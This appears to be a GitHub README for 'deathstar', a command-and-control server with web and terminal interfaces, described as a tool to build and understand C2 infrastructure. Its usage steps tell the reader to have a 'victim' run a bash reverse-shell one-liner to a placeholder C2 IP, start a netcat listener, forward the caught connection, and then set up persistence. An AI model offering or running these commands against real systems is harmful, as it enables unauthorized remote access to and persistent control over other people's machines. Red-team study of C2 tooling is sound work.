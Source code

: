# deathstar
Build and understand C2 infrastructure.

"Deathstar" has a webpage, or a terminal based C2 connection manager.

"Stardestroyer.py" is one option of calling into the C2 server.


![screen](https://github.com/user-attachments/assets/7de184fa-cd0b-4cbf-b701-9f505a77cb2a)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Start C2
`python3 deathstar-web.py`

or 

`python3 deathstar-term.py`

# Open link in web browser

```firefox 127.0.0.1:5000```

# Have Victim connect to C2 
Linux / MacOS

`bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`

# Start your listener 
`nc -nvlp 4444`

# Forward the connection to another listener
On the webpage, type the IP of the listening device, and then click forward.

# Catch the connection
Once you've caught the connection, begin setting up persistence.

# Wash, rince, repeat.


